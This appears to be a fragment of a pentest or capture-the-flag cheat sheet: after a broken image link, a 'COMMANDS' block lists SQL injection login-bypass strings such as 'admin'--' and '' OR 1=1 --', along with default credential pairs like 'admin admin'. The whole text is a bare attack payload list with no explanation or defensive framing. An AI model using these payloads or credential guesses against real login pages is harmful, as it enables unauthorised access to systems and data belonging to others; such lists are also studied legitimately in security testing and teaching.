 ### COMMANDS:

```sql
admin'--
" or 1=1 --
' or 1=1 --
' OR 1=1 --
' OR "tr"||"ue" --
' OR 2^3 --
admin admin
user user

```
